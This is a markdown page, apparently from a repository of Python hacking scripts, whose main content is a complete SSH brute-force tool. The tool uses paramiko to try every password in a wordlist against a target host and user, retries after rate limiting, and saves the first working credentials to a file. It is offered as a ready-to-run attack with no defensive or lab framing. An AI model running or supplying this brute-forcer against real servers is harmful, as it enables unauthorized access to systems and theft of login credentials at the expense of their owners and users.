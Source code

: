 ```python
	main(target)
```

### SSH Bruteforcer

```python
def is_ssh_open(hostname, username, password):
    # initialize SSH client
    client = paramiko.SSHClient()
    # add to know hosts
    client.set_missing_host_key_policy(paramiko.AutoAddPolicy())
    try:
        client.connect(hostname=hostname, username=username, password=password, timeout=3)
    except socket.timeout:
        # this is when host is unreachable
        print(f"{RED}[!] Host: {hostname} is unreachable, timed out.{RESET}")
        return False
    except paramiko.AuthenticationException:
        print(f"[!] Invalid credentials for {username}:{password}")
        return False
    except paramiko.SSHException:
        print(f"{BLUE}[*] Quota exceeded, retrying with delay...{RESET}")
        # sleep for a minute
        time.sleep(60)
        return is_ssh_open(hostname, username, password)
    else:
        # connection was established successfully
        print(f"{GREEN}[+] Found combo:\n\tHOSTNAME: {hostname}\n\tUSERNAME: {username}\n\tPASSWORD: {password}{RESET}")
        return True

if __name__ == "__main__":
    import argparse
    parser = argparse.ArgumentParser(description="SSH Bruteforce Python script.")
    parser.add_argument("host", help="Hostname or IP Address of SSH Server to bruteforce.")
    parser.add_argument("-P", "--passlist", help="File that contain password list in each line.")
    parser.add_argument("-u", "--user", help="Host username.")

    # parse passed arguments
    args = parser.parse_args()
    host = args.host
    passlist = args.passlist
    user = args.user
    # read the file
    passlist = open(passlist).read().splitlines()
    # brute-force
    for password in passlist:
        if is_ssh_open(host, user, password):
            # if combo is valid, save it to a file
            open("credentials.txt", "w").write(f"{user}@{host}:{password}")
            break
```
